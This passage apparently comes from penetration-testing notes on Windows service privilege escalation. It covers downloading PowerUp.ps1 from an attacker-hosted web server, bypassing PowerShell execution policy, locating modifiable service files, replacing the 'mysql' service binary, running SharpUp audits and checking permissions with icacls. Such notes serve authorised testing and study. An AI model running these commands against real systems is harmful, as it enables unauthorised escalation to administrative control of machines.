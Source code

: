 **IMPORTANT**: It is worth using this tool to support manual analysis.

```bash
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .

python3 -m http.server 80

iwr -uri http://$MIO_IP/PowerUp.ps1 -Outfile PowerUp.ps1

powershell -ep bypass

. .\PowerUp.ps1

# Search for services that can be modified by the user
Get-ModifiableServiceFile
```

```bash
Install-ServiceBinary -Name 'mysql'
```

```bash
$ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe' | Get-ModifiablePath -Literal

$ModifiableFiles

$ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument' | Get-ModifiablePath -Literal

$ModifiableFiles

$ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument -conf=C:\test\path' | Get-ModifiablePath -Literal

$ModifiableFiles
```

##### SharpUp

**IMPORTANT**: It is worth using this tool to support manual analysis.

**SharpUp** (GhostPack) also allows you to identify potentially vulnerable services.

```powershell
.\SharpUp.exe audit
```

### 2. Checking Permissions

Using **icalcls** to check permissions on a given file.

```bash
icacls "C:\...\file.exe"
```

|MASK|PERMISSIONS|
|---|---|
|F|Full access|
|M|Modify access|
|RX|Read and execute access|
|R|Read-only access|
|W|Write-only access|

